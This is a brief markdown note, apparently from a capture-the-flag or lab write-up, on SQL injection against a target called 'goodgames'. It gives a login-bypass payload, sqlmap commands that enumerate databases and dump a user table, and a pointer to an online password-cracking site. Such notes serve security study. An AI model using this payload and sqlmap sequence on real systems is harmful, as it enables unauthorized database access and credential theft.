 # SQL Injection

Payload

```sql
admin' or 1=1 -- -
```



Sqlmap saved request

```bash
sqlmap -r goodgames.req
sqlmap -r goodgames.req --dbs
sqlmap -r goodgames.req -D main --tables
sqlmap -r goodgames.req -D main -T user --dump

```



Password crack

{% embed url="https://crackstation.net" %}
